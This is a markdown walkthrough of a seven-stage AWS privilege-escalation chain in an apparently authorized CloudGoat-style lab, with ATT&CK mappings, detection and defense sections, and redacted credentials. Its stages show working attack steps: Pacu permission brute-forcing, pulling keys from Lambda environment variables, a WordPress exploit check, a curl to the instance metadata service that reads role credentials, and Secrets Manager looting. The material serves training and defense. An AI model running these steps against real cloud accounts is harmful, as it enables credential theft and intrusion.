

# Walkthrough: AWS EC2 Privilege Escalation (Lambda to IMDS to Secrets Manager)

> **First entry in the walkthroughs series.** This is a worked example that chains the
> individual techniques documented elsewhere in the Cloud domain into one end-to-end attack
> path, so you can see how a real engagement moves from a single leaked key to account secrets.
> More lab walkthroughs will be added here over time.

## Lab and scope note

This walkthrough is reconstructed from an **authorized, self-hosted CloudGoat-style lab** (an
intentionally vulnerable AWS scenario deployed into a disposable account for training). Every
sensitive value has been **redacted** so the file reads as a reusable template rather than a
dump of live credentials:

- Access key IDs shown as `AKIA<REDACTED>` / `ASIA<REDACTED>`, secrets as `<REDACTED_SECRET>`,
  session tokens as `<REDACTED_SESSION_TOKEN>`.
- The account ID shown as `<ACCOUNT_ID>`, public IP as `<EC2_PUBLIC_IP>`, private IP as
  `<EC2_PRIVATE_IP>`.
- The final flag shown as `HSM{<REDACTED_FLAG>}` — flags are meant to be solved on your own
  deployment, not read here.

Resource names that are standard to the scenario (for example `cg-pentest-lab`,
`cg-ec2-role-lab`, `cg-final-flag-lab`) are kept so the flow is followable. Run this only
against infrastructure you own or are explicitly authorized to test; see
[AWS Penetration Testing Methodology and Tooling](aws-penetration-testing-methodology-and-tooling.md)
for the scope and authorization rules.

## Attack chain at a glance

| Stage | Action | Technique | ATT&CK |
|---|---|---|---|
| 1 | Use the supplied IAM user access keys | Valid cloud account | T1078.004 |
| 2 | Brute-force the credential's permissions with Pacu | Account discovery | T1087.004 |
| 3 | Enumerate Lambda and read creds from its env vars | Service discovery + unsecured creds | T1526, T1552.001 |
| 4 | `ec2:DescribeInstances` reveals a public WordPress host | Infrastructure discovery | T1580 |
| 5 | Exploit the public WordPress app to run code on the host | Exploit public-facing app | T1190 |
| 6 | Read the instance role's creds from IMDSv1 | Cloud instance metadata | T1552.005 |
| 7 | Assume the role and loot Secrets Manager for the flag | Valid account + secrets store | T1078.004, T1555.006 |

## Full chain flow



---

## Stage 1 — Initial access with a leaked IAM user key (T1078.004)

**Definition.** *Valid Accounts: Cloud Accounts* (T1078.004) is the use of legitimate cloud
credentials an actor has obtained. Here the engagement starts with a long-term IAM user access
key (an `AKIA…` key for the user `cg-pentest-lab`). The first move on any AWS credential is to
confirm whose it is — `sts:GetCallerIdentity` needs no permission and even returns the identity
when a policy denies it.

**Walkthrough.**

```bash
# Configure the profile with the supplied long-term key
aws configure --profile second
# AWS Access Key ID:     AKIA<REDACTED>
# AWS Secret Access Key: <REDACTED_SECRET>
# Default region:        us-east-1

# Confirm the identity behind the key
aws sts get-caller-identity --profile second
{
    "UserId": "AIDA<REDACTED>",
    "Account": "<ACCOUNT_ID>",
    "Arn": "arn:aws:iam::<ACCOUNT_ID>:user/cg-pentest-lab"
}
```

The `AKIA` prefix tells you this is a long-term IAM user key (an `ASIA` prefix would mean
temporary STS credentials). See
[AWS IAM Enumeration and Privilege Abuse](aws-iam-enumeration-and-privilege-abuse.md) for the
full identity-and-key model.

**Detection.** `GetCallerIdentity` followed immediately by broad enumeration, especially from a
new IP/ASN/region, is the opening signature of a stolen key. Long-term `AKIA` key use from an
unfamiliar location is a GuardDuty signal.

**Defense.** Prefer short-lived role credentials over long-term `AKIA` keys; rotate and retire
unused keys; require MFA for sensitive actions; never embed keys in code, configs or repos.

## Stage 2 — Permission enumeration with Pacu (T1087.004)

**Definition.** *Account Discovery: Cloud Account* (T1087.004) is mapping what an identity can
see and do. When policy reads are denied, the practical method is to **probe** benign APIs and
watch which succeed. Pacu's `iam__bruteforce_permissions` module automates this by attempting a
large set of common `describe`/`list` calls.

**Walkthrough.**

```text
# Import the key into Pacu and brute-force its permissions
Pacu (second:No Keys Set) > import_keys second
  Imported keys as "imported-second"

Pacu (second:imported-second) > run iam__bruteforce_permissions --region us-east-1
[iam__bruteforce_permissions] Enumerating us-east-1
  -- Account ARN : arn:aws:iam::<ACCOUNT_ID>:user/cg-pentest-lab
  -- sts.get_caller_identity() worked!
  -- sts.get_session_token() worked!
  -- dynamodb.describe_endpoints() worked!
  -- lambda.list_functions() worked!
```

The key result: this credential can call **`lambda:ListFunctions`**. That is the thread to pull.

**Detection.** A burst of `List*`/`Get*`/`Describe*` across many services from one identity, or
a spike of `AccessDenied` results in a short window, is the hallmark of permission brute-forcing
(Pacu, `enumerate-iam`, ScoutSuite and Prowler all generate it). All of it is in CloudTrail,
which logs management events by default.

**Defense.** Least privilege and permissions boundaries so an enumerated credential reveals and
reaches little; alert on enumeration bursts and `AccessDenied` spikes; run your own auditors
(Prowler/ScoutSuite) on a schedule to find the same weak permissions first.

## Stage 3 — Lambda enumeration and env-var secret extraction (T1526, T1552.001)

**Definition.** *Cloud Service Discovery* (T1526) inventories which managed services are in use.
Lambda delivers two things of interest: the function's configuration (via
`lambda:GetFunctionConfiguration`) and any **environment variables** stored on it. Developers
frequently put credentials in plaintext env vars — *Unsecured Credentials: Credentials In Files*
(T1552.001) covers harvesting secrets left in that kind of configuration.

**Walkthrough.**

```text
Pacu (second:imported-second) > run lambda__enum --region us-east-1
[lambda__enum] Starting region us-east-1...
[lambda__enum]   Enumerating data for cg-log-processor-lab
        [+] Secret (ENV): LAMBDA_MANAGER_AK = AKIA<REDACTED>
        [+] Secret (ENV): LAMBDA_MANAGER_SK = <REDACTED_SECRET>
[lambda__enum] lambda__enum completed.
```

A second IAM key pair (`LAMBDA_MANAGER_*`) was sitting in the function's environment. Import it
and brute-force **its** permissions — it has a different, more useful grant:

```text
Pacu (lambda_func:imported-lambda_func) > whoami
  "Permissions": {
    "Allow": [
      "dynamodb:DescribeEndpoints",
      "ec2:DescribeInstances",
      "sts:GetCallerIdentity",
      "sts:GetSessionToken"
    ]
  }
```

This key can call **`ec2:DescribeInstances`**. See
[AWS Lambda and Serverless Security](aws-lambda-and-serverless-security.md) for why env-var
secrets and over-scoped execution roles are the dominant serverless risks.

**Detection.** `GetFunctionConfiguration`/`ListFunctions` enumeration in CloudTrail, especially
from an unusual principal. Where secrets *should* live is Secrets Manager or SSM — see
[AWS Secrets Management and Credential Exposure](aws-secrets-and-credential-exposure.md).

**Defense.** Never store credentials in plaintext Lambda environment variables; put them in
Secrets Manager or SSM Parameter Store (SecureString) and fetch at runtime; restrict
`lambda:GetFunctionConfiguration`; scope each function's execution role to the minimum.

## Stage 4 — EC2 infrastructure discovery (T1580)

**Definition.** *Cloud Infrastructure Discovery* (T1580) enumerates the compute, network and
storage assets in an account. `ec2:DescribeInstances` returns a rich inventory: public IPs,
attached **instance profiles** (the role the box can assume), security groups, tags, and the
**metadata-service configuration**.

**Walkthrough** (output trimmed to the security-relevant fields):

```bash
aws ec2 describe-instances --profile lambda_func
```

```jsonc
{
  "Tags": [{ "Key": "Name", "Value": "cg-marketing-wp-lab" }],   // a WordPress marketing host
  "PublicIpAddress": "<EC2_PUBLIC_IP>",
  "PrivateIpAddress": "<EC2_PRIVATE_IP>",
  "IamInstanceProfile": {
    "Arn": "arn:aws:iam::<ACCOUNT_ID>:instance-profile/cg-ec2-instance-profile-lab"
  },
  "MetadataOptions": {
    "HttpTokens": "optional",      // <-- IMDSv1 still allowed
    "HttpPutResponseHopLimit": 2,
    "HttpEndpoint": "enabled"
  }
}
```

Three findings line up into an attack: the host is **publicly reachable**, it carries an
**instance profile** (so it holds role credentials), and `HttpTokens: optional` means **IMDSv1
is still enabled**. If we can run code on that host, we can read its role credentials from the
metadata service.

**Detection.** `DescribeInstances`/`DescribeSecurityGroups`/`DescribeVpcs` fan-out from a
credential that does not normally perform inventory; wide, shallow describe sweeps across regions.

**Defense.** Least privilege on `ec2:Describe*` where practical; do not attach instance profiles
that are broader than the workload needs; **require IMDSv2** so a discovered public host does not
also hand out credentials to any code that lands on it.

## Stage 5 — Exploiting the public-facing WordPress app (T1190)

**Definition.** *Exploit Public-Facing Application* (T1190) is gaining code execution by abusing
a vulnerability in an internet-facing service. The discovered host runs a vulnerable WordPress
version; the public proof-of-concept **wp2shell**
([github.com/Icex0/wp2shell-poc](https://github.com/Icex0/wp2shell-poc)) is used to confirm the
weakness and obtain a foothold on the instance.

**Walkthrough** (reconnaissance / vulnerability confirmation):

```bash
python3 wp2shell.py check http://<EC2_PUBLIC_IP>/
[*] WordPress markers found (wp-content / wp-includes / wp-json)
[*] Public WordPress version hints: 6.9 (wp2shell affected range)
[+] VULNERABLE - batch route-confusion behaviour detected.
```

Exploiting the application yields command execution **on the EC2 instance itself** — the
pivot that makes the metadata service reachable in the next stage. (Only run an exploit PoC
against a target you are authorized to test.)

**Detection.** WAF/web-server logs showing the PoC's request pattern; unexpected child processes
or outbound connections from the web host; file-integrity changes under the web root (for example
a dropped `wp-content/plugins/` web shell).

**Defense.** Patch and version-manage public apps (WordPress core, themes and plugins); put a WAF
in front; run the web host with a **minimal instance profile**; segment it so a web compromise
does not immediately yield powerful cloud credentials. SSRF against the same app would reach IMDS
by a different route — see
[SSRF and the Cloud Metadata API](../web-security/ssrf-and-cloud-metadata-api.md).

## Stage 6 — Stealing role credentials from IMDSv1 (T1552.005)

**Definition.** *Unsecured Credentials: Cloud Instance Metadata API* (T1552.005) is reading an
instance's role credentials from the link-local metadata service at `169.254.169.254`. With
**IMDSv1** a plain `GET` returns them; the host's instance profile role (`cg-ec2-role-lab`) is
exposed at `/latest/meta-data/iam/security-credentials/<role-name>`.

**Walkthrough** (run from the foothold on the instance):

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-role-lab
```

```json
{
  "Code": "Success",
  "Type": "AWS-HMAC",
  "AccessKeyId": "ASIA<REDACTED>",
  "SecretAccessKey": "<REDACTED_SECRET>",
  "Token": "<REDACTED_SESSION_TOKEN>",
  "Expiration": "2026-11-20T12:44:29Z"
}
```

Configure these temporary credentials as a new profile and confirm the assumed role:

```bash
aws sts get-caller-identity --profile wordpress
{
    "Arn": "arn:aws:sts::<ACCOUNT_ID>:assumed-role/cg-ec2-role-lab/<INSTANCE_ID>"
}
```

The `ASIA` prefix and `Token` field mark these as short-lived STS credentials — valid until
`Expiration`, but usable from anywhere until then.

**Detection.** The single highest-fidelity signal in this whole chain: the role's `ASIA…`
credentials appearing from an **IP outside the instance**. GuardDuty surfaces this as
`UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration`. Watch web/proxy logs for requests
containing `169.254.169.254`.

**Defense.** **Enforce IMDSv2** (`HttpTokens=required`) and keep the hop limit at 1 — this alone
would have blocked this stage, because a simple `GET` no longer returns credentials. Block app
egress to `169.254.169.254` where feasible; scope the instance role tightly.

## Stage 7 — Assuming the role and looting Secrets Manager (T1078.004, T1555.006)

**Definition.** With the stolen role credentials (T1078.004) the actor enumerates further.
*Credentials from Password Stores: Cloud Secrets Management Stores* (T1555.006) is the retrieval
of secrets from a managed secrets store such as AWS Secrets Manager; a principal with
`secretsmanager:ListSecrets` and `GetSecretValue` reads the plaintext.

**Walkthrough.**

```text
# Brute-force the assumed role's permissions
Pacu (lambda:imported-wordpress) > run iam__bruteforce_permissions --region us-east-1
  -- Account Path: assumed-role/cg-ec2-role-lab/<INSTANCE_ID>
  -- secretsmanager.list_secrets() worked!

# Enumerate and pull the secret value
Pacu (lambda:imported-wordpress) > run secrets__enum --region us-east-1
[secrets__enum]  Found secret: cg-final-flag-lab
[secrets__enum]  Check ~/.local/share/pacu/<session>/downloads/secrets/ for the values

$ cat secrets.txt
cg-final-flag-lab: HSM{<REDACTED_FLAG>}
```

The role could read Secrets Manager, and the final secret was stored there — the end of the
chain.

**Detection.** CloudTrail `ListSecrets`, `GetSecretValue` (and `DescribeParameters`/
`GetParameters` for SSM) bursts, especially from an assumed-role session that normally never
reads secrets; unusual KMS `Decrypt` volume against the key protecting the secret.

**Defense.** Resource-scoped, least-privilege read policies on Secrets Manager and SSM; encrypt
with customer-managed KMS keys and restrict `kms:Decrypt`; rotate secrets automatically; alert on
the CloudTrail and KMS signals above.

---

## Consolidated detection

Every stage above is an ordinary, logged API call or request — nothing here is a memory-corruption
exploit — so the defender's advantage is correlation across CloudTrail, GuardDuty and web logs:

- **Enumeration bursts**: wide `List*`/`Describe*` fan-out or `AccessDenied` spikes from one
  identity (stages 2–4).
- **Credential crossing a boundary**: `ASIA…` instance-role credentials used from an IP outside
  the instance (stage 6) — the strongest single indicator; GuardDuty
  `InstanceCredentialExfiltration`.
- **Secret access**: `ListSecrets`/`GetSecretValue` from a session that should never touch them
  (stage 7).
- **Web exploitation**: PoC request patterns and new processes/files on the WordPress host
  (stage 5).

## Consolidated defense

Any **one** of these controls breaks the chain:

1. **No plaintext credentials in Lambda env vars** — removes stage 3, so the attacker never gets
   the `ec2:DescribeInstances` key.
2. **Least-privilege keys and roles** — the Lambda key reaching EC2, and the instance role
   reaching Secrets Manager, are the over-grants that make stages 4 and 7 possible.
3. **Patch the public app / put it behind a WAF** — removes the stage-5 foothold.
4. **Enforce IMDSv2 (`HttpTokens=required`, hop limit 1)** — removes stage 6; even with a
   foothold, a plain `GET` no longer returns role credentials. This is the single
   highest-value hardening step.

## ATT&CK mapping

| ID | Name | Tactic | Stage |
|---|---|---|---|
| T1078.004 | Valid Accounts: Cloud Accounts | Initial Access, Persistence, Privilege Escalation, Defense Evasion | 1, 7 |
| T1087.004 | Account Discovery: Cloud Account | Discovery | 2 |
| T1526 | Cloud Service Discovery | Discovery | 3 |
| T1552.001 | Unsecured Credentials: Credentials In Files | Credential Access | 3 |
| T1580 | Cloud Infrastructure Discovery | Discovery | 4 |
| T1190 | Exploit Public-Facing Application | Initial Access | 5 |
| T1552.005 | Unsecured Credentials: Cloud Instance Metadata API | Credential Access | 6 |
| T1555.006 | Credentials from Password Stores: Cloud Secrets Management Stores | Credential Access | 7 |

## Explanation

This lab is a relay race where every baton is a credential. You start holding one runner's key,
and the only question that matters is "what does this key open?" — so you check, and it opens a
cupboard with a *second* key inside (the password a developer left in a function's settings). That
second key cannot do much except look at the building's floor plan, but the floor plan shows a
public door with a guard who, if you ask at a special inside window, will read out the building's
master credentials. So you force the public door (the unpatched web app), walk to the window
(the metadata service), and — because nobody made the window demand a token first — it reads you
the master key. That key opens the safe, and the safe holds the prize. Notice that no single step
is clever; each is just a key that opened one more door than it should have. The defence is the
same at every door: give each key the narrowest reach, keep real secrets in a real safe, and make
the inside window refuse to talk to anyone who has not filled in the form (IMDSv2).
